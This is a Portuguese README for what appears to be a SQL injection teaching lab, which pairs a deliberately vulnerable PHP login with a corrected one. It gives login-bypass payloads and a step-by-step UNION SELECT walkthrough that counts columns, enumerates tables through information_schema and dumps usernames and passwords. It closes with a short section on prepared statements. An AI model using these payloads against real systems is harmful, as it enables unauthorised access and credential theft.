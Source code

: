 SQL Injection - Exemplo de login vulnerável e um login corrigido.

obs.: Os usuários que tem a senha em hash somente logam no login.php.

Temos dois logins.

login.php - Onde as vulnerabilidades foram corrigidas.
login_vul.php - Onde você efetuara os testes abaixo, esse é o nosso login vulnerável.
Temos também uma falha no banco que permite a execução da do teste número 2.

Como Testar Corretamente a Vulnerabilidade?

Na página login_vul.php

Teste esse payload simples:

obs.: Após o payload tem um espaço, não esqueça dele.

### Teste 1 ###
Nesse teste, é adicionado ao final dois traços, informando a query sql que será montada pela aplicação que o que vem a seguir é comentario e não precisa ser executado, com isso invalidamos o retante da query.

Username: admin' --
Password: [qualquer coisa]

### Teste 2 ###
Neste teste a consulta se torna:
SELECT * FROM usuarios WHERE login = 'admin' OR '1'='1' AND senha = '...';
'1'='1' é SEMPRE verdadeiro em SQL
Isso faz com que toda a condição seja verdadeira, ignorando a verificação da senha

Username: admin' OR '1'='1
Password: x
Deve retornar o primeiro usuário da tabela

### Teste 3 ###
Caso o anterior não funcione.
Username: admin' OR 1=1 --
Password: x


Agora segue um passo a passo de todos os teste possíveis em linha de raciocinio.

Este tutorial demonstra como explorar uma vulnerabilidade de SQL Injection em um sistema de login vulnerável, usando técnicas para:

✅ Descobrir o número de colunas
✅ Identificar colunas úteis
✅ Extrair dados sensíveis (usuários, senhas, tabelas)

🔍 Passo 1: Confirmar a Vulnerabilidade
Payload básico para verificar SQL Injection:

sql

' OR '1'='1
Se o login for bem-sucedido sem credenciais válidas, o sistema é vulnerável.

Exemplo de query resultante:

sql

SELECT * FROM usuarios WHERE username = '' OR '1'='1' AND password = 'qualquer';
→ Retorna todos os usuários porque '1'='1' é sempre verdadeiro.

📏 Passo 2: Descobrir o Número de Colunas (ORDER BY)
Usamos ORDER BY para determinar quantas colunas a tabela tem.

Técnica: Incrementar até dar erro
sql

' ORDER BY 1--  
' ORDER BY 2--  
' ORDER BY 3--  
...  
Exemplo:

Se ORDER BY 5 funcionar, mas ORDER BY 6 der erro → 5 é o número de colunas.

🔄 Passo 3: Confirmar Colunas com UNION SELECT
O UNION SELECT exige o mesmo número de colunas da query original.

Payload genérico (substitua X pelo nº de colunas):
sql

' UNION SELECT 1,2,3,...,X--  
Exemplo para 4 colunas:

sql

' UNION SELECT 1,2,3,4--  
O que observar:

Se aparecerem números na tela (ex: 2 e 3), essas são colunas visíveis (úteis para extrair dados).

📦 Passo 4: Extrair Nomes das Tabelas (SQL Injection em INFORMATION_SCHEMA)
Se soubermos que o banco é MySQL/MariaDB, podemos listar tabelas:

Payload para listar tabelas:
sql

' UNION SELECT 1,table_name,3,4 FROM information_schema.tables WHERE table_schema = database()--  
Resultado esperado:

Nomes de tabelas como usuarios, clientes, produtos, etc.

🔓 Passo 5: Extrair Colunas de uma Tabela
Suponha que descobrimos a tabela usuarios. Podemos listar suas colunas:

Payload para listar colunas:
sql

' UNION SELECT 1,column_name,3,4 FROM information_schema.columns WHERE table_name = 'usuarios'--  
Resultado esperado:

Colunas como id, username, password, email, etc.

💻 Passo 6: Extrair Dados Sensíveis (Usuários e Senhas)
Agora que sabemos a estrutura, extraímos os dados:

Payload para extrair usuários e senhas:
sql

' UNION SELECT 1,username,password,4 FROM usuarios--  
Se as senhas estiverem em texto puro:
→ Aparecerão diretamente.

Se estiverem hasheadas (ex: MD5, SHA-1):
→ Podemos tentar quebrar offline com ferramentas como John the Ripper ou Hashcat.

🛡️ Como se Proteger? 
Use Prepared Statements:

php

$stmt = $pdo->prepare("SELECT * FROM usuarios WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
Armazene senhas com hash (ex: password_hash() + password_verify())

Valide entradas (filtros, regex, escape de caracteres)

📌 Conclusão
Este tutorial mostrou como:
1️⃣ Testar vulnerabilidade (' OR '1'='1)
2️⃣ Descobrir colunas (ORDER BY e UNION SELECT)
3️⃣ Extrair tabelas e colunas (information_schema)
4️⃣ Extrair dados (usuários e senhas)